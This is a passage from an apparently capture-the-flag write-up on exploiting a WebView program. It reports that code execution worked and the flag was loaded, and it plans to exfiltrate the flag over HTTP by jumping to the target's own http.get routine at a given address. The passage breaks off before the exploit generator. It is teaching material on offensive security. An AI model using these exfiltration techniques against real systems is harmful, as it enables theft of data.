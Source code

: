 Now launching `WebView` under the debugger and stepping a little over the code confirms that the exploit works and flag was loaded into memory.

![](code_execution.png)


![](flag_loaded.png)

Now it is time to exfiltrate the flag. We know that the VM has access to the internet, so we can make HTTP request with flag as a parameter. I've found useful function which can do work for us:

```c
bool GetUrl(dword _http_url)
{
	char new_url_full[URL_SIZE+1];

	if (!strncmp(_http_url,"http:",5)) {
		http.get(_http_url);
		return true;
	} else if (!strncmp(_http_url,"https://",8)) {
		strcpy(#new_url_full, "http://gate.aspero.pro/?site=");
		strncat(#new_url_full, _http_url, URL_SIZE);
		http.get(#new_url_full);
		return true;
	}
	return false;
}
```

Actually, we will use only `http.get` function. Quick check in IDA reveals that address where we need to jump is: `0x1137c`, so we just need to create the url for HTTP request. Final exploit generator looks like this:
